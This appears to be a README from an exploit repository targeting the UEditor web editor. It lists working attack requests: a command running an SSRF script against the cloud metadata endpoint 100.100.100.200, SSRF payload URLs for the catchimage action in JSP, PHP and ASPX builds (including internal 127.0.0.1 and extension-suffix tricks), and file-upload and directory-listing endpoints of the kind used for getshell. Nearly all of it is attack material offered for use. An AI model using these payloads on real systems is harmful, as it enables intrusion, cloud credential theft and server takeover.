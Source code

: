 # ueditor_exp
This is a Compilation of ueditor exps like file upload 、xss 、ssrf 、getshell

ssrf:
python u_ssrf.py http://100.100.100.200/latest/meta-data/
<img width="1209" height="579" alt="image" src="https://github.com/user-attachments/assets/cd4ce304-4a83-4d79-bc70-75294bb520e5" />

JSP：

/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
/jsp/getRemoteImage.jsp?upfile=action=catchimage&source[]= https://www.baidu.com/img/?.png
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

PHP：
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/php/controller.php?action=catchimage&source[]=

ASPX
/ueditor/net/controller.ashx?action=catchimage&source%5B%5D=http%3A%2F%2Fx.x.x.x/1.gif?.aspx

Upload Path：
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile
/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile
/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage
/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage

list directory path:
/ueditor/net/controller.ashx?action=listfile
/ueditor/net/controller.ashx?action=listimage

